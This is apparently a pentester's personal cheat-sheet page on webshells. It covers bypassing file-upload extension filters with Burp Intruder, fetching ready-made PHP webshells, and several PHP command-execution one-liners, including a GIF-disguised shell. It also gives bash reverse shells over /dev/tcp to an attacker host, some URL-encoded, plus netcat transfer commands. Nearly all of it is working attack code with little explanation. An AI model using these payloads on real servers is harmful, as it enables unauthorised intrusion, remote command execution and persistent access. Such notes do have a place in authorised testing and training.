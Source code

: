 
### asp, aspx, cfm, jsp, laudanum, perl, php

![[Pasted image 20220202133058.png]]

```bash - kali
cp /usr/share/webshells/
```


### Bypassing extension limits.
1. Capture and upload in Burp. 
2. Send to Intruder.
3. Dicitonary attack the extension (PHP example below).

```burpsuite - kali
php
php3
php4
php5
phtml
```

### PHP

#### wwolf

```bash - kali
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```

![[Python#Server]]


#### php reverse shell payload

If you see php payload in exploit, replace with the following for reverse shell:

ORIGINAL:

```
payload = '<?php if($_POST["password"]=="' + password + '"){eval($_POST["cmd"]);}else{echo "<title>404 Not Found</title><h1>Not Found</h1>";}?>'
```

REPLACE WITH:
```php
payload = '<?php passthru("bash -i >& /dev/tcp/$KALI/80 0>&1"); ?>'
```

![[rlwrap]]


#### Pentestmonkey

```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.php
```

https://github.com/pascal-gujer/webshellz

#### File upload webshells
Try saving this as 'Shelly.php' file, upload and access.

```php
<?php system($_GET[cmd]);?>
```

```php
<?php echo($_GET['cmd']);?>
```

```php
<?php echo shell_exec($_GET['cmd']);?>
```

![[rlwrap]]

```bash - target
bash+-c+'bash+-i+>%26+/dev/tcp/$KALI/443+0>%261'
```

```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```

#### GIF
Upload Shelly.php as a "GIF"

```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```

#### File upload webshell

See also: [[5._File Upload]]

Set listener on port 4444 to output any connection to shelly.php.
```php
<?php echo exec('nc -lvnp 4444 > shelly.php 2>&1'); ?>.php
```

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

![[rlwrap]]

Upload and access Shelly.php.

```bash - kali
curl http://$TARGET/uploads/Shelly.php?cmd=id
```

Use nc to connect and transfer shelly.php.
```bash - kali
nc -nv IP 4444 < shelly.php
```

Visit file upload to connect reverse shell.

#### PHP reverse shell
Shelly.php
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```

